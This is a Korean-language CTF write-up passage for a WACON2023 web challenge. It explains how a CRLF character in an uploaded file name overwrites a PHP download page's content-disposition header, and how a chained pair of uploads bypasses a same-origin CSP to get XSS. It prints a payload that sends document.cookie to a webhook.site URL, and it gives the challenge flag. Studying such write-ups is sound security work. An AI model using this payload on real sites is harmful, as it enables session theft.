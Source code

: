 ```python
?>
```

핵심은 파일 이름으로 CRLF를 사용할 수 있고 이를 통해 `content-disposition` 헤더를 덮어쓸 수 있다는 것이다. 

즉, header injection이 가능하다.

이를 이용해서 응답을 다운로드 파일로 표시하는 대신 내용을 포함한 인라인 페이지로 만들 수 있으며, script 태그를 삽입하면 XSS가 가능하다.

```python
header("content-disposition: attachment; filename=\"$original\"");
```

예를 들면, CRLF를 이용해서 `test\rtest.html`과 같은 일부 문자를 포함하면 헤더를 덮어쓸 수 있다.

```python
$insert['file_name'] = $_FILES['file']['name'];
```

`Board.php`를 보면, 파일을 업로드할 수 있고 파일명으로 CRLF를 사용할 수 있다. 

```python
Content-Security-Policy: default-src 'self'; style-src 'self'
```

적용된 CSP를 보자. 

동일한 도메인의 스크립트만 포함할 수 있다. 

우회 방법은 실행할 자바스크립트 코드가 포함된 파일을 먼저 업로드한 다음 download.php 페이지에서 해당 js 코드를 포함하는 다른 파일을 업로드하는 것이다.

```python
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="test.html"
Content-Type: text/html

document.location='https://webhook.site/05ca15ce-f3fb-451c-a0b5-e8616892f419?'+document.cookie
```

먼저, 위와 같은 js 파일을 업로드 한다.

```python
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="test\r.html"
Content-Type: text/html

<script src="/download.php?idx=843"></script>
```

js 파일을 로드하기 위해서 이름에 CRLF가 포함된 2번째 파일을 업로드한다.

마지막으로 test\r.html을 bot에게 전송하면 플래그를 획득할 수 있다.

```python
WACON2023{b1b1e2b97fcfd419db87b61459d2e267}
```

# MISC

## mic check

---